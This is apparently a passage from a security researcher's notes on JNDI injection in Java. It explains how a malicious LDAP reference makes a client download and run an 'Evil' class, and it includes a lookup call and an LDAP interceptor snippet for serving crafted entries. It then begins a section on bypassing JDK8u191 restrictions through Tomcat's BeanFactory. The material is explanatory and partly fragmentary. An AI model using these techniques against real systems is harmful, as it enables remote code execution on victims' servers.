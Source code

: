 When request the LDAP entry:
```java
ctx.lookup("ldap://0.0.0.0:2389/ref");
```
A http request will made to *codebase*, client will download and define the `Evil` class. Any static code block in `Evil` will be executed on client.


#### LDAP Interceptor
The `InMemoryOperationInterceptor` class can intercept the process either between receiving requests and reaching the LDAP server, or after processed by LDAP server and before sending result to client.
Its `processSearchResult()` method defines the action before replying to client. We can intercept all results from LDAP server and take easy to return a newly defined `Entry`.
Example:
```java
@Override  
public void processSearchResult(InMemoryInterceptedSearchResult result) {  
    String base = result.getRequest().getBaseDN();  
  
    System.out.println(String.format("Request: %s", base));  
  
    if (base.toLowerCase().startsWith("ser")) {  
        processSerializable(result);  
        return;    } else if (base.toLowerCase().startsWith("ref")) {  
        processReferencable(result);  
        return;    }  
  
    System.out.println(String.format("Request for %s fail", base));  
	result.sendSearchEntry(entry);
    result.setResult(new LDAPResult(2, ResultCode.NO_OPERATION));  
  
}
```



---

# JNDI Injection Bypass

> After JDK8u191, the remote resolving codebase functionality of LDAP and RMI is disabled by default. So we need to bypass this restriction.



## Bypass using `ObjectFactory`[^1] 
### Tomcat Bypass using `BeanFactory`

> [!NOTE] pre-requirements
> Tomcat < 8.5.79
> This vul is repaired in 8.5.79, changelog:
> *Disable the `forceString` option for the JNDI `BeanFactory` and replace it with an automatic search for an alternative setter with the same name that accepts a `String`. This is a security hardening measure. (markt)*


[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)